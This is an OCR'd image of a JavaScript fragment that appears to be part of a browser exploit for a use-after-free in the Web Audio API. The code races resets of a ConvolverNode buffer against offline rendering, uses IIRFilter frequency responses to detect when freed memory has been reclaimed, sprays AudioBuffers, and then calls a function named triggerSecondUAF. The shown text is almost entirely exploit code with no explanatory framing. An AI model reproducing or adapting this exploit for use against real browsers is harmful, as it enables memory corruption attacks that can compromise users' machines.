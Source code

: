 ```jsx
	convolver.connect(audioCtx.destination);
 
	bufferSource.start();
 
	let finished = false;
 
     	audioCtx.startRendering().then(function(buffer) {
     		buffer = null;
 
    		if (finished) {
        		audioCtx = null;
 
        		setTimeout(doneCb, 200);
        		return;
    		} else {
        		finished = true;
 
        		setTimeout(function() {
             		triggerSecondUAF(addr, doneCb);
        		}, 1);
    		}
	});
 
	while (!finished) {
    		counter++;
 
    		convolver.buffer = null;
 
    		await later(1); // wait 1 millisecond
 
    		if (finished)
         		break;
 
    		for (let i = 0; i < iirFilters.length; i++) {
        		floatArray.fill(0);
          	   iirFilters[i].getFrequencyResponse(floatArray, floatArray, floatArray);
 
         		if (floatArray[0] != 3.1415927410125732) {
             			finished = true;
 
             	     		audioBufferArray2.push(audioCtx.createBuffer(1, 1, 10000));
                 		audioBufferArray2.push(audioCtx.createBuffer(1, 1, 10000));
 
            			bufferSource.disconnect();
            			convolver.disconnect();
 
            			return;
        		}
    		}
 
    		convolver.buffer = smallAudioBuffer;
 
    		await later(1); // wait 1 millisecond
	}
}
```
